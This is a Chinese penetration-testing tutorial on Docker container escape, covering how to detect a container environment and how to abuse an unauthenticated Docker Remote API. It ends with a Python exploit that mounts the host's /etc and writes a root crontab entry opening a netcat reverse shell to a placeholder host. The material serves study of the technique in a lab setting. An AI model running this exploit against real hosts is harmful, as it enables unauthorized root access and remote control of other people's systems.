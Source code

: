 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [xz.aliyun.com](https://xz.aliyun.com/t/8558)

前言
--

在 t00ls 看到一篇渗透测试的[文章](https://www.t00ls.net/thread-58322-1-1.html)，里面 docker 逃逸的部分，感觉有意思。这方面我是空白，所以打算记录下利用。新手文章，难免有错，还望师傅们指正交流。

Docker 逃逸在渗透测试中面向的场景大概是这样，渗透拿到 shell 后，发现主机是 docker 环境，要进一步渗透，就必须逃逸到 “直接宿主机”。甚至还有物理机运行虚拟机，虚拟机运行 Docker 容器的情况。那就还要虚拟机逃逸了。篇幅有限，本文记录 Docker 逃逸相关技术重点、尽最大可能进行利用复现。

如何判断当前机器是否为 Docker 容器环境
-----------------------

*   Metasploit 中的 checkcontainer 模块、（判断是否为虚拟机，checkvm 模块）  
    该模块其实进行了如下操作：
    
*   检查根目录下是否存在`.dockerenv`文件  
    [![](https://xzfile.aliyuncs.com/media/upload/picture/20201122222151-109b39ba-2cce-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201122222151-109b39ba-2cce-1.jpg)
    
*   检查 `/proc/1/cgroup` 是否存在含有 docker 字符串!  
    [![](https://xzfile.aliyuncs.com/media/upload/picture/20201122222211-1c211f0c-2cce-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201122222211-1c211f0c-2cce-1.jpg)
    
*   检查是否存在 container 环境变量  
    通过`env` \ `PATH` 来检查是否有 docker 相关的环境变量，来进一步判断。
    
*   其他检测方式

如检测 mount、fdisk -l 查看硬盘 、判断 PID 1 的进程名等也可用来辅助判断。

Docker 逃逸的方法
------------

### 危险的配置导致 Docker 逃逸

由于 "纵深防御" 和 "最小权限" 等理念和原则落地，越来越难以直接利用漏洞来进行利用。另一方面，公开的漏洞，安全运维人员能够及时将其修复，当然，不免存在漏网之鱼。相反，更多的是利用错误的、危险的配置来进行利用，不仅仅 Docker 逃逸，其他漏洞也是，比如生产环境开启 Debug 模式导致漏洞利用等等。

> Docker 已经将容器运行时的 Capabilities 黑名单机制改为如今的默认禁止所有 Capabilities，再以白名单方式赋予容器运行所需的最小权限。

#### Docker Remote API 未授权访问

Vulhub 提供了该漏洞的复现环境。

利用方法是，我们随意启动一个容器，并将宿主机的 / etc 目录挂载到容器中，便可以任意读写文件了。我们可以将命令写入 crontab 配置文件，进行反弹 shell。

Docker Remote API 的端口为 2375 端口。  
反弹 Shell exp：

```
import docker

client = docker.DockerClient(base_url='http://your-ip:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})


```
